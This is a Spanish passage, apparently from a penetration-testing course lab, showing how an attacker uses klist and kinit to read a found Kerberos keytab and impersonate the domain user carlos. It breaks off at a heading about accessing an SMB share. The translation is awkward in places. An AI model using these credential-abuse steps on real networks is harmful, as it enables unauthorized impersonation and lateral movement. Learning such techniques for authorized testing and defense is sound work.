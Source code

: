 
# **Abusar de archivos keytab**

Como atacantes, podemos tener varios usos para un archivo KeyTab. Lo primero que podemos hacer es hacerse pasar por un usuario usando`kinit`. Para usar un archivo KeyTab, necesitamos saber para qué usuario se creó.`klist`es otra aplicación utilizada para interactuar con Kerberos en Linux. Esta aplicación lee información de un`keytab`archivo. Veamos eso con el siguiente comando:

### **Listado de información del archivo de KeyTab**

Pase el boleto (PTT) de Linux

```
david@inlanefreight.htb@linux01:~$ klist -k -t /opt/specialfiles/carlos.keytab Keytab name: FILE:/opt/specialfiles/carlos.keytab
KVNO Timestamp           Principal
---- ------------------- ------------------------------------------------------
   1 10/06/2022 17:09:13 carlos@INLANEFREIGHT.HTB

```

El boleto corresponde al usuario Carlos. Ahora podemos hacerse pasar por el usuario con`kinit`. Confirmemos con qué boleto estamos usando`klist`Y luego importe el boleto de Carlos en nuestra sesión con`kinit`.

**Nota:** **pariente**es sensible al caso, así que asegúrese de usar el nombre del principal como se muestra en Klist. En este caso, el nombre de usuario es minúscula, y el nombre de dominio es mayúscula.

### **Hacerse pasar por un usuario con un keytab**

Pase el boleto (PTT) de Linux

```
david@inlanefreight.htb@linux01:~$ klist Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: david@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:02:11  10/07/22 03:02:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:02:11
david@inlanefreight.htb@linux01:~$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytabdavid@inlanefreight.htb@linux01:~$ klist Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: carlos@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:16:11  10/07/22 03:16:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:16:11

```

Podemos intentar acceder a la carpeta compartida`\\dc01\carlos`Para confirmar nuestro acceso.

### **Conectarse a SMB Share como Carlos**
